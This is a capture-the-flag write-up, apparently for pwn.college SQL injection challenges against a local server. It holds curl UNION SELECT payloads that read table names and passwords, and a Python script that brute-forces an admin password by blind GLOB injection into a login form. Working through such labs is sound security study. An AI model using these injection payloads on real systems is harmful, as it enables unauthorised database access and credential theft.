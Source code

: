 # SQLi 4
Attackers can get the table name unless the server program restarts.
```sh
curl 'http://challenge.localhost:80/?query=%"%20UNION%20SELECT%20tbl_name%20FROM%20sqlite_master--'
# So the table name is "users_7983180967"
curl 'http://challenge.localhost:80/?query=%"%20UNION%20SELECT%20password%20FROM%20users_7983180967--'
```

I think challenge SQLi 1~4 can be solved in browser definitly, but I did't try.

# SQLi 5
Unlike LIKE operator, GLOB is case-sensitive.
```python
import requests as req

url='http://challenge.localhost:80'

def brute_force():
    flag_content = ''
    # letters = [ chr(ch_num) for ch_num in range(0x21, 0x7E+1) ] # all possible printable letters
    letters = [ chr(ch_num) for ch_num in range(0x0, 0x7E+1) ] # Then I found there is an annoying extra char '\n' by this command
    # remove wildcards
    letters.remove('*')
    letters.remove('?')

    # while flag_content == '' or flag_content[-1] != '}': # use this line I can't find the '\n' char and the confirm() function fails, but the flag is right.
    while len(flag_content) < 2 or flag_content[-2] != '}':
        for letter in letters:
            passwd = "' OR username='admin' AND password GLOB 'pwn.college{" + flag_content + letter + "*"
            d={
                'username': 'admin',
                'password': passwd
            }
            r = req.post(url,data=d)
            if r:
                flag_content += letter
                break
            if letter == letters[-1]:
                flag_content += '?'
        print(flag_content)
    print("pwn.college{" + flag_content)
    return flag_content

def confirm(flag_content):
    passwd = "' OR username='admin' AND password = 'pwn.college{" + flag_content
    d={
        'username': 'admin',
        'password': passwd
    }
    r = req.post(url,data=d)

if __name__ == '__main__':
    confirm(brute_force())
```
